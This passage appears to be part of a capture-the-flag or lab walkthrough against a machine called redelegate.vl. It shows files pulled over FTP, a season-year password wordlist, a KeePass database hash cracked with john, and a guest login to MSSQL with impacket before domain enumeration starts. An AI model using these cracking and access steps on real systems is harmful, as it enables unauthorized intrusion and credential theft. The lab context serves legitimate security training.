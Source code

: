 ```terminal
10-20-24  12:26AM                  580 TrainingAgenda.txt
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget *
```

Note that binary mode was used to download the files. The file `CyberAudit.txt` contains some previous engagement findings and their mitigation status. It suggests that removing unused AD objects is not mitigated yet, as well as checking ACLs. The file `TrainingAgenda.txt` shows that employees had a training about using strong passwords instead of something like "SeasonYear!".

Especially the last hint gives us a format we could try, so we generate a simple word list:

```
Spring2024!
Summer2024!
Fall2024!
Autumn2024!
Winter2024!
```

Since we don't have any domain users yet, we can only try them against the KeePass file `Shared.kdbx`, which was also on the share:

```
~/tools/john/run/keepass2john Shared.kdbx | tee hashes
Shared:$keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8a988f39baca623dd86beaee651025662e6*e4f9d51a5df3e5f9ca1019cd57e10d60f85f48228da3f3b4cf1ffee940e20e01*18c45dbbf7d365a13d6714059937ebad*a59af7b75908d7bdf68b6fd929d315ae6bfe77262e53c209869a236da830495f*806f9dd2081c364e66a114ce3adeba60b282fc5e5ee6f324114d38de9b4502ca

~/tools/john/run/john hashes -w=passwords.txt
***2024!        (Shared)
Session completed.
```

We found the password and can now open the KeePass file, for example with `keepassxc`. One of the credentials inside is for MSSQL which we saw running on the machine, so we try to connect:

```bash
mssqlclient.py 'sqlguest:'***'@redelegate.vl'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
SQL (SQLGuest  guest@master)>
```

This works but we just have guest access. One thing we could try is to use `xp_dirtree` to get the hash of the service account running the service, but in this case it won't help. Instead we are going to enumerate domain users from here (even though the sqlguest account is *not* a domain user).

First, we get the domain name:

```sql
SQL (SQLGuest  guest@master)> SELECT DEFAULT_DOMAIN();

----------
REDELEGATE
```
